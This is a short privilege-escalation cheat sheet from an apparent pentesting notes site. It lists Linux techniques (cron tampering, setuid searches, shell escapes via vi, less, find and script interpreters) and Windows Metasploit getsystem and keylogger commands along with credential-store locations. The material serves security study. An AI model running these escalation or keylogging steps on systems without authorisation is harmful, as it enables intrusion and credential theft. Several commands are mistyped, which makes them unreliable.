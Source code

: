 ```yaml
---
title: Priv Esc
category: Post-Exploitation
order: 96
---
```


>**Linux**

Cron.d | Write a file to cron.d and wait for restart
Cron files | Can any of the cron files be tampered with
Kernal Exploit | <code> Run uname -a, /etc/release, /etc/issue and find an exploit </code>
Application Exploit | Look for web servers, mail servers for command injection <br> Look for exploits in root owned programs
PATH | Look for '.' in the path for system users
SETUID/SETGUID | <code> find directory -user root -perm -4000 -exec ls -ld {} \; > /tmp/security-hole </code> They may use the system syscall without specifying the path name 
User writable scripts | Look for scripts that have user writable permissions and are invoked by root (or call scripts that are invoked by root)
Enlightenment Exploit Pack | tbd
LD_PRELOAD | tbd
check sudo permissions | sudo -l

**setuid permissions**
 
{% highlight bash %}
sudo vi :shell
less (press v - launching vi) :shell
more  ?,  !bash
cp or mv
find . -exec bash -i \;
Script interpeters
perl exec ""/bin/bash"";<ctrl-d>
ruby exec ""bin/bash""
python import os os.system('/in/bash')
nano 
{% endhighlight %}

>**Windows**

Metasploit | use priv, getsystem -n [number]
Metasploit keylogger | keyscan_start, keyscan_stop, keyscan_dump
SAM Locations | c:\windows\repair, c:\winnt\repair
Active Directory Representations | ntd.dit

http://pentestmonkey.net/uncategorized/from-local-admin-to-domain-admin

>**Mind Map**

[Priv Esc Mind Map](https://binaryexile.github.io/images/privesc.jpg)


